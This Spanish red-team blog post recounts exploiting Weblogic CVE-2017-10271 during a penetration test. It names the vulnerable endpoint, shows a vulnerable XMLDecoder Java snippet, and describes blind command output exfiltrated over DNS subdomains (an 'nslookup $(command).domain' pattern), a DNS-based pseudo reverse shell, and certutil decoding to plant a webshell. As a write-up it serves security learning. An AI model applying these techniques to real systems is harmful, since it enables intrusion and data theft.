 ```yaml
---
title: "Explotacion Weblogic en entornos bastionados"
header:
  teaser: "https://farm5.staticflickr.com/4076/4940499208_b79b77fb0a_z.jpg"
categories: 
  - ES
tags:
  - ES
  - Red Team
  - Java
  - Object Injection
  - RCE
  - Deserialize
author: Alejandro Pinna
gallery:
          - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/lines.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/lines.png
            alt: "Peticion Lineas"
            title: "Contador de caracteres por DNS"
          - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/respuesta_dns.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/respuesta_dns.png
            alt: "Respuesta Lineas"
            title: "Respuesta al XML que exfiltra dicha información"
          - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/intruder.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/intruder.png
            alt: "Respuesta Lineas"
            title: "Respuesta al XML que exfiltra dicha información"
gallery2:
          - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/exfil.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/exfil.png
            alt: "Peticion Lineas"
            title: "Contador de caracteres por DNS"
          - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/respuesta_dns_exfil.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/respuesta_dns_exfil.png
            alt: "Respuesta Lineas"
            title: "Respuesta al XML que exfiltra dicha información"
gallery3:
          - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/shell_dns.png
            image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/shell_dns.png
            alt: "Shell DNS"
            title: "Shell DNS"
---
```



Durante uno de los test de intrusión llevados a cabo por el equipo de Red Team, en el cual se trataba de lograr acceso a la red de una organización,
haciendo uso de alguna vulnerabilididad en el perimetro, y sin ningún tipo de conocimiento previo de la misma, se tuvo que
explotar la hasta ahora poco conocidad vulnerabilidad CVE-2017-10271 en Weblogic.

## La vulnerabilidad

La vulnerabilidad se encuentra en la ruta /wls-wsat/CoordinatorPortType y se produce debido a que la clase **WorkContextXmlInputAdapter.class** utiliza
el XML que le introducimos sin ningún tipo de comprobación previa, pasandoselo a la funcion **readObject**, la cual al deserializar dicho xml provoca la
ejecución remota de código.

A continuación dejamos un articulo de referencia, donde se explican este tipo de vulnerabilidades en profundidad. 

<http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html>

A continuación podremos observar un código que posee la misma vulnerabilidad que weblogic, aunque es mucho mas sencillo de comprender en el siguiente
escenario.

```java
    public static void main(String[] args) {
        java.io.File file = new java.io.File ( "C:\\Users\\Administrador\\Desktop\\poc.txt" );
        java.beans.XMLDecoder xd = null ;
        try {
            xd = new java.beans.XMLDecoder ( new BufferedInputStream ( new FileInputStream (file)));
        } catch (FileNotFoundException e) {
            e.printStackTrace ();
        }
        Object s2 = xd.readObject ();
        xd.close ();
}
```

Como podemos observar, el fichero contendrá código xml el cual será parseado por java.beans.XMLDecoder y nos devolverá un objeto, que sera
deserializado por la función java.beans.XMLDecoder.readObject, y que producirá la ejecución remota de código.

En el caso de Weblogic la vulnerabilidad es muy similar.

Para comprobar si un Weblogic es efectivamente vulnerable, hemos de buscar excepciones no controladas de Java al enviarlo XMLs con java embebido mediante una petición POST a la ruta **/wls-wsat/CoordinatorPortType** como se muestra a continuación.

![Respuesta devuelta por sistemas vulnerables]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/respuesta-sistemas-vulnerables.png)

En este blog no tenemos como objetivo cubrir los detalles sobre la vulnerabilidad dado que estos han sido cubiertos en muchos otros articulos
publicados hasta el momento, sino que pretendemos mostrar como esta vulnerabilidad podría ser explotada incluso en entornos restringidos los cuales no
poseen salida a internet, y al tratarse de una ejecución de código en la cual no es observable la salida de lo ejecutado, otros métodos han tenido que
ser desarrollados.


## Explotación

Para llevar a cabo la explotación, el primer paso fue comprobar si los sistemas que el equipo había identificado eran efectivamente vulnerables, para
lo cual se realizó un script, que envia un XML usando java, y que posteriormente comprueba si la respuesta de la aplicación web mostraba que
efectivamente era vulnerable, o si por el contrario las aplicaciones estaban parcheadas.

Tras algunos intentos el equipo detecto un weblogic vulnerable, por lo que se procedió a explotar la vulnerabilidad.

![checkeo de la vulnerabilidad]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/check.png)

En un primer intento, el equipo comprobó si la máquina tenía salida a internet, aunque se detecto que no.

Tras esto, se detecto que la máquina no tenía binarios como sleep, por lo que realizar una inyeccion de comandos basada en tiempos quedaba
completamente descartado, por lo que se buscaron otros metodos para realizar esta explotación.

Trás numerosas pruebas se detectó que la máquina tenía configurado un DNS interno, el cual al recibir peticiones hacia dominios de burpcollaborator
realizaba dichas peticiones, lo cual permitiría exfiltrar cierta información usando los subdominios para incrustar en ellos la información que ibamos
exfiltrando de la máquina.

![checkeo de la vulnerabilidad]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/dns.png)

A partir de este punto se comenzó a desarrollar un xml que permitiera exfiltrar la salida de los comandos ejecutados por DNS, lo cual en otros
entornos es mucho más simple, usando la técnica **nslookup $(comando).dominio.com**, pero en este caso, tras ciertas pruebas se comprobó que dichos
comandos no funcionarían, dado que el weblogic corría sobre un servidor windows, por lo tanto este metodo fue implementado en java, usando un metodo
para ejecutar comandos, leer cada linea, y posteriormente usar dichas lineas como variables, enviandolos como subdominios en las peticiones DNS.
Este proceso fue en parte automatizado haciendo uso de BurpSuite, más concretamente, usando una configuración del Intruder para recibir en cada respuesta DNS 
la linea leida y el numero de caracteres.

{% include gallery %}

Como se puede observar la explotación constaba, no solo de exfiltrar los comandos por DNS, sino que fue necesario desarrollar un metodo para contar el
número de caracteres que devolvía cada comando, dado que no se pueden incluir más de 64 caracteres en un subdominio, por lo que con esta petición se
contaban los caracteres de cada linea sobre los comandos ejecutados.
Posteriormente se realizaba la exfiltración de los caracteres en si, haciendo uso de las funciones java.lang.String.replace y java.lang.String.substr 
para reemplazar caracteres especiales, y exfiltrar tan solo el número de caracteres permitidos, como se muestra a continuación.

{% include gallery id="gallery2" %}

Este proceso permitió ir conociendo la estructura de ficheros del servidor, el usuario que ejecutaba la aplicación, comprobar los privilegios con los
que se contaban, etc.

Poco a poco se fue desarrollando un automatismo que permitía recibir las respuestas en un servidor dns escrito en python, el cual tenía un
comportamiento cercano a una shell inversa, como se muestra a continuación.

{% include gallery id="gallery3" %}


Utilizando estos automatismos el equipo fue capaz de encontrar un directorio escribible en el cual se podían subir ficheros para ser posteriormente
ejecutados por la aplicación web (webshell).

En este punto el equipo tuvo que desarrollar un metodo para subir una webshell sin poder utilizar caracteres como 
` > | `

Trás investigar durante un tiempo aplicaciones instaladas en un Windows Server por defecto que permitieran encodear y decodear base64 
mediante un solo comando se utilizó la utilidad **certutil**, la cual permite decodear el contenido de un fichero, y volcarlo en un nuevo fichero.

![checkeo de la vulnerabilidad]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png)

Usando este metodo se consiguió obtener una webshell en dicho servidor, y por tanto un vector de acceso limpio en la organización.




